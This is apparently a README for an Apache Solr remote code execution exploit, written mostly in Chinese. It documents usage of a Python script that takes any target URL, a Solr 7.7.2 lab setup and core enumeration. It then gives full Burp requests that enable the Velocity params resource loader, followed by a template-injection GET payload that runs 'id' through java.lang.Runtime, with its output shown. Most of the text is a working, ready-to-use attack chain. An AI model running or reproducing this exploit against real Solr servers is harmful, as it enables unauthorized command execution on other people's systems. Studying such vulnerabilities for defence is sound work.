




# Apache Solr RCE via Velocity template


## python usage:

`python solr_rce.py http://x.x.x.x:8983 command`





## 0x01 solr简介

Solr是Apache Lucene项目的开源企业搜索平台。
其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本的处理。
2019年10月30日，国外安全研究人员放出了一个关于solr 模板注入的exp，攻击者通过未授权访问solr服务器，发送特定的数据包开启params.resource.loader.enabled，然后get访问接口导致服务器命令执行，命令回显结果在response，于是本地搭建漏洞环境复现一下。

## 0x02 漏洞环境搭建

`https://www.apache.org/dyn/closer.lua/lucene/solr/7.7.2`

`https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.7.2/solr-7.7.2.zip`

#### velocity.solr.resource.loader.enabled:true

`/opt/solr-7.7.2/example/example-DIH/solr/atom/conf/solrconfig.xml`

```
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf# cat solrconfig.xml | grep enable
    <enableLazyFieldLoading>true</enableLazyFieldLoading>
    <str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:false}</str>
    <str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:false}</str>
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf#
```
#### 开启dih 示例

`./solr -e dih -force`

```
root@kali:/opt/solr-7.7.2/bin# ./solr -e dih -force
*** [WARN] *** Your open file limit is currently 1024.
 It should be set to 65000 to avoid operational disruption.
 If you no longer wish to see this warning, set SOLR_ULIMIT_CHECKS to false in your profile or solr.in.sh

Starting up Solr on port 8983 using command:
"/opt/solr-7.7.2/bin/solr" start -p 8983 -s "/opt/solr-7.7.2/example/example-DIH/solr" -force

Waiting up to 180 seconds to see Solr running on port 8983 [\]
Started Solr server on port 8983 (pid=20222). Happy searching!


Solr dih example launched successfully. Direct your Web browser to http://localhost:8983/solr to visit the Solr Admin UI
root@kali:/opt/solr-7.7.2/bin#
```
#### 浏览器访问 

`http://10.10.20.166:8983/solr/#/`



到此，漏洞环境搭建完成。

用户在打开网站时候，再burpsuite里面会发现一个接口，可以获取所有core name的名称，方便后续遍历core name，拼接字符串,依次检测漏洞



`http://10.10.20.166:8983/solr/admin/cores?_=1572594549070&indexInfo=false&wt=json`

简写为

`http://10.10.20.166:8983/solr/admin/cores?indexInfo=false&wt=json`

```
{
  "responseHeader": {
    "status": 0,
    "QTime": 3
  },
  "initFailures": {},
  "status": {
    "atom": {
      "name": "atom",
      "instanceDir": "/opt/solr-7.7.2/example/example-DIH/solr/atom",
      "dataDir": "/opt/solr-7.7.2/example/example-DIH/solr/atom/data/",
      "config": "solrconfig.xml",
      "schema": "managed-schema",
      "startTime": "2019-11-01T07:47:08.216Z",
      "uptime": 107753
    },
    "db": {
      "name": "db",
      "instanceDir": "/opt/solr-7.7.2/example/example-DIH/solr/db",
      "dataDir": "/opt/solr-7.7.2/example/example-DIH/solr/db/data/",
      "config": "solrconfig.xml",
      "schema": "managed-schema",
      "startTime": "2019-11-01T07:47:09.224Z",
      "uptime": 106745
    },
    "mail": {
      "name": "mail",
      "instanceDir": "/opt/solr-7.7.2/example/example-DIH/solr/mail",
      "dataDir": "/opt/solr-7.7.2/example/example-DIH/solr/mail/data/",
      "config": "solrconfig.xml",
      "schema": "managed-schema",
      "startTime": "2019-11-01T07:47:06.695Z",
      "uptime": 109273
    },
    "solr": {
      "name": "solr",
      "instanceDir": "/opt/solr-7.7.2/example/example-DIH/solr/solr",
      "dataDir": "/opt/solr-7.7.2/example/example-DIH/solr/solr/data/",
      "config": "solrconfig.xml",
      "schema": "managed-schema",
      "startTime": "2019-11-01T07:47:06.702Z",
      "uptime": 109267
    },
    "tika": {
      "name": "tika",
      "instanceDir": "/opt/solr-7.7.2/example/example-DIH/solr/tika",
      "dataDir": "/opt/solr-7.7.2/example/example-DIH/solr/tika/data/",
      "config": "solrconfig.xml",
      "schema": "managed-schema",
      "startTime": "2019-11-01T07:47:03.493Z",
      "uptime": 112475
    }
  }
}

```


## 利用Burpsuite 发包 ,开启params.resource.loader.enabled

Ps: params.resource.loader.enabled 默认是false

由于我们修改的atom目录下的配置文件，所以我们只能拿这个存在配置缺陷的接口来攻击

`http://10.10.20.166:8983/solr/atom/config`



#### BurpSuite request
```
POST /solr/atom/config HTTP/1.1
Host: 10.10.20.166:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 259
Connection: close
Upgrade-Insecure-Requests: 1

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

#### BurpSuite response
```
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 149

{
  "responseHeader":{
    "status":0,
    "QTime":554},
  "WARNING":"This response format is experimental.  It is likely to change in the future."}

```
## 开启后，直接Get 访问（带入表达式）进行 远程代码命令执行

`http://10.10.20.166:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end`

#### ssit

`http://10.10.20.166:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=`

`#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end`


注意到 状态码是`400`，`而不是200`，出现`500`的情况可能是 异常报错。这可以作为后续编写`脚本`判断漏洞存在有辅助帮助。


## Attack start


1. Set `params.resource.loader.enabled` as true.

```
Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================
```

2. RCE via velocity template

```
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```
## 参考链接：

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt
